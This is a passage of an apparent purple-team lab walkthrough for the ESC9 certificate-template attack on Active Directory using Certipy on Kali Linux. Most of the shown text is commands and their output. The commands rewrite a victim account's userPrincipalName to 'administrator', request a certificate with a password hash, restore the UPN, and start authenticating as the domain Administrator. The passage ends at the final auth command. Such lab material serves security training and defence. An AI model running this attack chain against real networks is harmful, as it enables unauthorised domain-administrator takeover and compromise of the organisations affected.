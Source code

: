 ```
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy account update -username "attacker@purpleteam.local" -p '1attacker*' -user victim -upn administrator
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Updating user 'victim':
    userPrincipalName                   : administrator
[*] Successfully updated 'victim'
```

3. Request a certificate using the vulnerable template
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy req -username "victim@purpleteam.local" -hashes '426b549fe65d8fca40c950331006af8c' -target 172.16.0.1 -ca 'DC01-CA' -template 'ESC9'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 56
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

4. Undone the changes performed at Step 2
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy account update -username "attacker@purpleteam.local" -p '1attacker*' -user victim -upn victim@purpleteam.local                      
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Updating user 'victim':
    userPrincipalName                   : victim@purpleteam.local
[*] Successfully updated 'victim'
```

5. Now if we authenticates using the retrieved certificate, we will get a TGT for the built-in Administrator account
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy auth -pfx administrator.pfx -domain purpleteam.local -dc-ip 172.16.0.1
Certipy v5.0.3 - by Oliver Lyak (ly4k)
